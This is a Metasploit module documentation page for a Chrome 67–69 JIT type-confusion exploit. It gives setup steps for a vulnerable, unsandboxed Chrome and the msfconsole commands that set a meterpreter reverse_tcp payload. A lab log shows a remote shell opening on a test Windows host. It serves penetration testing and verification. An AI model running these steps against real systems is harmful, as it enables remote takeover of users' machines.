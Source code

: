 This modules exploits a type confusion in Google Chromes JIT compiler. The Object.create operation can be used to cause a type confusion between a PropertyArray and a NameDictionary.
The type confusion can be used to construct a arbitrary read/write memory primitive, which is used to write shellcode into rwx region of a WebAssembly object.

**This module does not contain an exploit to escape the sandbox, so you must launch Google Chrome with the --no-sandbox option**

## Vulnerable Application

The module is compatible with any 64bit Google Chrome (version 67, 68 or 69), on any platform (macOS, Linux or Windows), however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/](https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/)

You should ensure that application does not update itself to the latest version (by disabling automatic updates or simply not connecting to the internet).
You may also need to disable Windows Defender.

## Verification Steps

1. Do: ```use exploit/multi/browser/chrome_object_create```
2. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set SRVHOST [IP]```
3. Do: ```set URIPATH / [PATH]```
4. Do: ```run```

## Scenarios

### Windows 10 and Google Chrome 69.0.3497.100 with --no-sandbox

Start Google Chrome without a sandbox:
```"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox```

```
msf5 > use exploit/multi/browser/chrome_object_create
msf5 exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf5 exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49682) at 2020-02-29 14:29:06 +0800

msf5 exploit(multi/browser/chrome_object_create) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\69.0.3497.100
meterpreter >
```
